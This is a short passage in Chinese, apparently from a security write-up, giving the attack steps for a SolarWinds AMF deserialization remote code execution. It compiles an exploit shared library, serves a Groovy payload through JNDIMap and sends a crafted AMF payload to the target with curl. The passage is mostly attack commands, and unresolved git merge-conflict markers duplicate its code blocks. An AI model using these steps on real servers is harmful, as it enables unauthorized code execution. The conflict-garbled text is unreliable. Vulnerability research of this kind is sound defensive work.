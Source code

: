 编译

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
# Linux amd64
gcc -shared -fPIC exp.c -o exp.so
```

根据之前的代码生成 payload.amf

然后将 Groovy payload 保存，运行 [JNDIMap](https://github.com/X1r0z/JNDIMap)

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
java -jar JNDIMap.jar -f scripts/solarwinds-amf-rce-1.groovy -u "/Custom/x"
```

curl 发送 amf payload

<<<<<<< HEAD
```plain
curl https://192.168.30.131:8443/services/messagebroker/streamingamf -k -H "Content-Type: application/amf" --data-binary @payload.amf --output -
```

[![](assets/1710899979-1189a1383db64eea3e5b9832268dc818.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304191557-92d87848-da18-1.png)
=======
```bash
curl https://192.168.30.131:8443/services/messagebroker/streamingamf -k -H "Content-Type: application/amf" --data-binary @payload.amf --output -
```

